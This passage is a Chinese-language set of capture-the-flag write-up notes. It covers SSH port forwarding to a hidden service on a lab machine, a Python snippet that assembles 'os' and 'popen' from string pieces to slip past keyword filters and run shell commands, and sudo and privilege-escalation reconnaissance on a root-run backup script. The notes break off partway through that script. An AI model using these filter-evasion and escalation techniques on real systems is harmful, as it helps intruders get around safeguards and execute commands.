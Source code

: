 ### 端口转发
假设ssh进入一个靶机，`ps`发现还有端口在运行，但是`nmap`并没有发现，就可以尝试把端口转发出去，例如
`ssh -L 8080:127.0.0.1:8080 albert@alert.htb`，一般漏洞点在这个web里面

### code的模拟输出

```
modules = globals().values()
global _module
for name, module in sys.modules.items():
    if name == ('o'+'s'):
        _module = module
        break
_method = getattr(_module, 'po' + 'pen')
file_obj = _method(' ')
_method = getattr(file_obj, 're' + 'ad')
output = _method()
print(output)
```
其实本质是
```
import os
output = os.popen(' ').read()
print(output)
```
在题目禁用的乱七八糟的情况下也是一个好方法，可以直接去读flag，爽啦

### code的root.txt
```
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
martin@code:~$ ls -la /usr/bin/backy.sh
-rwxr-xr-x 1 root root 926 Sep 16  2024 /usr/bin/backy.sh
martin@code:~$ cat /usr/bin/backy.sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
```